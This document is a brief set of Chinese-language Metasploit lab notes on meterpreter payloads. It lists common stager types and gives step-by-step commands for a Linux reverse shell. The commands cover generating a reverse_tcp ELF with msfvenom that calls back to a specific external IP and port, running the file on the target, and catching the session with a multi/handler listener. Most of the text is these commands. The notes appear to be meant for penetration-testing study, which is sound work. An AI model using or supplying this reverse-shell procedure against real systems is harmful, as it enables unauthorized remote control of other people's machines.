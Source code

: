 
---

## MSF 实验笔记

### Payload

#### Stager中几种常见的payload
```
windows/meterpreter/bind_tcp       #正向连接
windows/meterpreter/reverse_tcp    #反向连接，常用
windows/meterpreter/reverse_http   #通过监听80端口反向连接
windows/meterpreter/reverse_https  #通过监听443端口反向连接
```

### reverse_tcp  
> 基于TCP的反向链接shell。

  1. linux
       1.  CLI下生成payload
       ```shell
      msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=42.193.104.247 lport=5678  -f elf -o shell.elf
      ```
      2. 或者在MSF下生成一个shell
        ```         use payload/linux/x86/meterpreter/reverse_tcp 设置Option
         set lhost 自己ip
         set lport 自己端口
         generate -f elf -o /shell.elf     # -o出文件到指定目录
        ```
      3. 在目标靶机上执行文件
        ```
        chmod 777 shell.elf
        ./shell.elf
        ```
      4. msf下开启`handler`监听.
        ```
        msf  >  use exploit/multi/handler
        msf  >  set payload linux/x86/meterpreter/reverse_tcp #设置的payload要和生成的相同
        msf  >  set LHOST 自己IP
        msf  >  run
        ```